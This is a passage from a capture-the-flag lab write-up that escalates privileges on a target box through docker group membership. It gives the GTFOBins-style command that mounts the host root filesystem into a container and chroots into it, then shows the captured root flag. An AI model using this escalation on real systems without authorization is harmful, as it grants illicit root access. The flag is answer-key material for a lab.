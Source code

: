![Pasted image 20250331170920.png](../../IMAGES/Pasted%20image%2020250331170920.png)

TheÂ `docker`Â group membership (GID 999) grantsÂ **root-equivalent privileges**Â on the host system. We can exploit this to escalate into root, let's search gtfobins:

![Pasted image 20250331172216.png](../../IMAGES/Pasted%20image%2020250331172216.png)

So, based on that, we can do the following:


```
docker run -v /:/host -it alpine chroot /host /bin/sh
```


We can check this:

![Pasted image 20250331172248.png](../../IMAGES/Pasted%20image%2020250331172248.png)

There we go, we can finally read root flag:

```
root@6e6c3ee6eed0:/# cat root/root.txt
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```
